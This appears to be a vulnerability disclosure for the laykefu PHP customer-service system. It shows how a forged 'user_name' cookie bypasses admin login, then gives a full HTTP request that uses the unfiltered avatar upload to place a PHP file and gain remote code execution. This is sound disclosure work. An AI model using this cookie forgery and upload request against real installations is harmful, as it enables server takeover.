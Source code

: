 ## Source code introduction

Development language: PHP

Development framework: ThinkPHP5.0.24

Project address: https://github.com/shmilylbelva/laykefu

## code analysis
### Authentication bypass vulnerability

The vulnerability file is in "application/admin/controller/Base.php", and the vulnerability code is as follows:

```
class Base extends Controller
{
    public function _initialize()
    {
        if(empty(cookie('user_name'))){
            $this->redirect(url('login/index'));
        }

        $this->assign([
            'version' => config('version')
        ]);
    }
}
```
As you can see, when the "user_name" value in the cookie is not empty, it will not jump to login.
To verify the vulnerability, we use the browser plug-in "ModHeader - Modify HTTP headers", set the cookie value to "user_name=1", and access the backend address to directly enter the backend.
The demonstration process is as shown below. If you can’t see clearly, please check the original picture.
![image](images/demo.gif)

### File upload
The vulnerability file is in the "upAvatar()" function under "application/admin/controller/Users.php". The vulnerability code is as follows:

```
public function upAvatar()
{
    if(request()->isAjax()) {

        $file = request()->file('file');
        if (!empty($file)) {
            // 移动到框架应用根目录/public/uploads/ 目录下
            $info = $file->move(ROOT_PATH . 'public' . DS . 'uploads');
            if ($info) {
                $src = '/uploads' . '/' . date('Ymd') . '/' . $info->getFilename();
                return json(['code' => 0, 'data' => ['src' => $src], 'msg' => 'ok']);
            } else {
                // 上传失败获取错误信息
                return json(['code' => -1, 'data' => '', 'msg' => $file->getError()]);
            }
        }
    }
}
```
It can be seen that there is no filtering of uploaded files. This method requires logging in to the administrator. However, by combining the above identity authentication bypass vulnerability, login restrictions can be bypassed and dangerous files (php files) can be uploaded to the server.
Construct a request packet to send a data packet.

```
POST /admin/users/upavatar.html HTTP/1.1
Host: xxx.xxx.xxx
Content-Length: 194
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36 Edg/107.0.1418.26
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3OCVBiwBVsNuB2kR
Origin: http://xxx.xxx.xxx
Referer: http://xxx.xxx.xxx/admin/users/edituser/id/2.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: user_name=1; user_id=3
sec-ch-ua-platform: "Windows"
sec-ch-ua: "Edge";v="107", "Chromium";v="107", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
Connection: close

------WebKitFormBoundary3OCVBiwBVsNuB2kR
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/png

<?php phpinfo();?>
------WebKitFormBoundary3OCVBiwBVsNuB2kR--
```
The file was successfully uploaded to the target server. The demonstration picture is as follows:
![image](images/1.png)

Then access the uploaded file and successfully RCE.
![image](images/2.png)
